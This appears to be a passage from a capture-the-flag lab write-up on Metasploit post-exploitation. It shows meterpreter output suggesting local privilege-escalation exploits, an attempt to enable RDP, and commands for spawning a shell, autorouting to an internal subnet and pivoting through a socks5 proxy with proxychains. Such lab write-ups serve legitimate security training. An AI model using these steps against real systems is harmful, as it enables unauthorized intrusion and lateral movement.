 ```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.103.33 - Collecting local exploits for x86/windows...
[*] 10.10.103.33 - 37 exploit checks are being tried...
[+] 10.10.103.33 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.103.33 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.103.33 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.103.33 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.103.33 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.103.33 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.103.33 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.103.33 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.103.33 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
```

Finally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: run post/windows/manage/enable_rdp

```
meterpreter > run post/windows/manage/enable_rdp

[-] Insufficient privileges, Remote Desktop Service was not modified
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20210322164425_default_10.10.103.33_host.windows.cle_041389.txt
```

    10. One quick extra question, what command can we run in our meterpreter session to spawn a normal system shell? 

shell

## Makin' Cisco Proud

Lets have a look at autorouting options available in metasploit. The victim may not have access to multiple network interfaces, however for these questions we will assume that it does.

**Questions**

    1. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.

`run autoroute -s 172.18.1.0 -n 255.255.255.0`

    2. Additionally, we can start a socks5 proxy server out of this session. Background our current meterpreter session and run the command `search server/socks5`. What is the full path to the socks5 auxiliary module?

auxiliary/server/socks5

    3. Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks5 server with proxychains?

proxychains